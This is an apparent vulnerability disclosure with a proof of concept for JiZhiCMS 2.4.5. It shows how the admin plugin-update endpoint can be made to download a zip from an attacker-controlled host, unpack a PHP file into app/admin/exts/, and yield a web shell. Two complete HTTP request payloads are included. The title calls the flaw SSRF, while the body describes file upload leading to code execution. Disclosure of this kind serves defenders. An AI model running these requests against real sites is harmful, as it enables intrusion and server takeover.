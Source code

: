# JiZhiCMS is vulnerable to Server-side request forgery (SSRF)
## Description
    JiZhiCMS 2.4.5 is vulnerable to Unrestricted File Upload which allows remote attackers to execute arbitrary code by uploading a php file.
## Vendor Homepage
    https://github.com/Cherry-toto/jizhicms,https://www.jizhicms.cn/

## Author
    HuBenLab
## Proof of Concept
This vulnerability is at the plugin, we can download the specified zip through the control url, and then unzip it to upload a Trojan.

Let's analyze it in detail. The key code is in the update function in `app/admin/c/PluginsController.php`. The parameters we need to pass are filepath (used to control part of the file name) and action (choose the function to use, here we choose start-download) The approximate function is to create a zip file and then pull a file from the cloud to write to the current zip file.

![image-20230525141643060](./img/image-20230525141643060.png)

Now that we have a zip, we can then use file-upzip to decompress it. We just need to pass the reference filepath to automatically unzip the zip to the `app/admin/exts/ directory`.

Use the following steps.

1. First compress the php file into a zip

   ![image-20230525141921868](./img/image-20230525141921868.png)

2. upload to vps, download the zip file on the vps

  ![image-20230525142011107](./img/image-20230525142011107.png)

  ```
  POST /index.php/admins/Plugins/update.html HTTP/1.1
  Host: jizhicms
  Content-Length: 94
  Accept: application/json, text/javascript, */*; q=0.01
  X-Requested-With: XMLHttpRequest
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  Origin: http://jizhicms
  Referer: http://jizhicms/index.php/admins/Plugins/index.html
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: PHPSESSID=ts87s3de2k4p79bdrm0mn14bs0
  Connection: close
  
  action=start-download&filepath=getshell&download_url=http://vps-ip/config.php.zip
  ```

  ![image-20230525142051457](./img/image-20230525142051457.png)

  Then the zip is downloaded to the cache directory

  ![image-20230525142111877](./img/image-20230525142111877.png)

3. unzip the zip, visit ip/app/admin/exts/filename to getshell

  ![image-20230525142146075](./img/image-20230525142146075.png)

  ```
  POST /index.php/admins/Plugins/update.html HTTP/1.1
  Host: jizhicms
  Content-Length: 37
  Accept: application/json, text/javascript, */*; q=0.01
  X-Requested-With: XMLHttpRequest
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  Origin: http://jizhicms
  Referer: http://jizhicms/index.php/admins/Plugins/index.html
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: PHPSESSID=ts87s3de2k4p79bdrm0mn14bs0
  Connection: close
  
  action=file-upzip&filepath=getshell
  ```

  Visit ip/app/admin/exts/config.php to getshell